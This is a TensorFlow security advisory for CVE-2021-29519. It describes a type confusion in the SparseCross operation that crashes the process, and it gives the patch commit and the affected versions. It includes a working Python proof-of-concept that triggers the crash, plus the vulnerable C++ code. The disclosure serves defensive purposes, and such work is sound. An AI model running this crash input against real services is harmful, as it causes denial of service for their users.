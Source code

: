 ## TFSA-2021-008: `CHECK`-fail in `SparseCross` due to type confusion

### CVE Number
CVE-2021-29519

### Impact
The API of `tf.raw_ops.SparseCross` allows combinations which would
result in a `CHECK`-failure and denial of service:

```python
import tensorflow as tf

hashed_output = False
num_buckets = 1949315406
hash_key = 1869835877
out_type = tf.string
internal_type = tf.string

indices_1 = tf.constant([0, 6], shape=[1, 2], dtype=tf.int64)
indices_2 = tf.constant([0, 0], shape=[1, 2], dtype=tf.int64)
indices = [indices_1, indices_2]

values_1 = tf.constant([0], dtype=tf.int64)
values_2 = tf.constant([72], dtype=tf.int64)
values = [values_1, values_2]

batch_size = 4
shape_1 = tf.constant([4, 122], dtype=tf.int64)
shape_2 = tf.constant([4, 188], dtype=tf.int64)
shapes = [shape_1, shape_2]

dense_1 = tf.constant([188, 127, 336, 0], shape=[4, 1], dtype=tf.int64)
dense_2 = tf.constant([341, 470, 470, 470], shape=[4, 1], dtype=tf.int64)
dense_3 = tf.constant([188, 188, 341, 922], shape=[4, 1], dtype=tf.int64)
denses = [dense_1, dense_2, dense_3]

tf.raw_ops.SparseCross(indices=indices, values=values, shapes=shapes, dense_inputs=denses, hashed_output=hashed_output,
                       num_buckets=num_buckets, hash_key=hash_key, out_type=out_type, internal_type=internal_type)
```

The above code will result in a `CHECK` fail in
[`tensor.cc`](https://github.com/galeone/tensorflow/blob/3d782b7d47b1bf2ed32bd4a246d6d6cadc4c903d/tensorflow/core/framework/tensor.cc#L670-L675):

```cc
void Tensor::CheckTypeAndIsAligned(DataType expected_dtype) const {
  CHECK_EQ(dtype(), expected_dtype)
      << " " << DataTypeString(expected_dtype) << " expected, got "
      << DataTypeString(dtype());
  ...
}
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/3d782b7d47b1bf2ed32bd4a246d6d6cadc4c903d/tensorflow/core/kernels/sparse_cross_op.cc#L114-L116)
is tricked to consider a tensor of type `tstring` which in fact contains
integral elements:

```cc
  if (DT_STRING == values_.dtype())
      return Fingerprint64(values_.vec<tstring>().data()[start + n]);
  return values_.vec<int64>().data()[start + n];
```

Fixing the type confusion by preventing mixing `DT_STRING` and `DT_INT64` types
solves this issue.

### Patches
We have patched the issue in GitHub commit
[b1cc5e5a50e7cee09f2c6eb48eb40ee9c4125025](https://github.com/galeone/tensorflow/commit/b1cc5e5a50e7cee09f2c6eb48eb40ee9c4125025).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
